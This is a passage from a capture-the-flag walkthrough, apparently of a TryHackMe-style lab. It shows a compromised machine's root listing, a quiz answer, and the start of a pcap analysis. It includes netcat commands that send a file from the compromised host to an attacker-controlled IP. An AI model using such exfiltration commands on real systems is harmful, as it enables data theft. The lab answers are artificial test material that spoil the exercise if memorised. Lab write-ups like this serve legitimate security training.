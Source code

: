 ```
drwx------   2 root     root     16384 Sep 25  2020 lost+found
drwxr-xr-x   2 root     root      4096 Sep 25  2020 media
drwxr-xr-x   2 root     root      4096 Sep 25  2020 mnt
drwxr-xr-x   2 root     root      4096 Sep 25  2020 opt
dr-xr-xr-x 125 root     root         0 Dec 15 00:46 proc
-rw-r--r--   1 www-data www-data   136 Nov 12  2020 recipe.txt
drwx------   4 root     root      4096 Nov 12  2020 root
drwxr-xr-x  25 root     root       900 Dec 15 01:19 run
drwxr-xr-x   2 root     root      4096 Sep 25  2020 sbin
drwxr-xr-x   2 root     root      4096 Nov 12  2020 snap
drwxr-xr-x   3 root     root      4096 Nov 12  2020 srv
dr-xr-xr-x  13 root     root         0 Dec 15 00:46 sys
drwxrwxrwt   7 root     root      4096 Dec 15 01:22 tmp
drwxr-xr-x  10 root     root      4096 Sep 25  2020 usr
drwxr-xr-x   2 root     root      4096 Nov 12  2020 vagrant
drwxr-xr-x  14 root     root      4096 Nov 12  2020 var
lrwxrwxrwx   1 root     root        30 Sep 25  2020 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root        30 Sep 25  2020 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
```

**Question**
#### What is the secret spicy soup recipe?

**Answer** 
#### love

**Question**
#### What are the contents of user.txt?

One folder drew my attention: **incidents**. Let's check the content.
```
$ cd incidents
$ ls -l
total 32
-rwxr-xr-x 1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```

We have a network capture file. We can download and open it with **Wireshark**

**Download pcapng file**
- First: On the local machine, start a listener and specify the file you are waiting
```
nc -lvp 4444 > suspicious.pcapng
```
- Second: From the compromised machine, use the **nc** command and send the file
```
nc 10.6.96.167 4444 -w 3 < suspicious.pcapng
```

**Pcap analyze**
- First: Start Wireshark
- Second: Open the pcap file. It takes time to walk around all requests. Foirtunately, I found sonme interesting information in the **tcp.stream eq 7**. Right click --> Follow --> TCP Stream
